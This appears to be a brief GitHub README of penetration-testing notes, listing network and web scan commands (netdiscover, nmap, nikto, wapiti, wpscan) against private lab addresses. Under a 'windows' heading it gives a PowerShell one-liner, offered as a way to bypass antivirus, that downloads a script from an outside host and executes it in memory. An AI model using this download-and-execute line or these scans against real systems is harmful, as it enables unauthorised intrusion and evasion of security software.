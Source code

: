 # tools
few scripts and useful commands

# scan
<ul>
<li>netdiscover -r 192.168.10.130/24</li>
<li>nmap -A -sS 192.168.10.135</li>
<li>nikto -h http://192.168.10.135/site</li>
<li>wapiti http://192.168.10.134/site</li>
<li>wordpress : wpscan --url http://192.168.10.135/site</li>
</ul>

# windows
<ul>
<li>run ps1 script in memory (bypass antivirus) : powershell IEX (New-Object Net.WebClient).DownloadString('http://10.133.127.172:85/test.ps1')</li>
</ul>
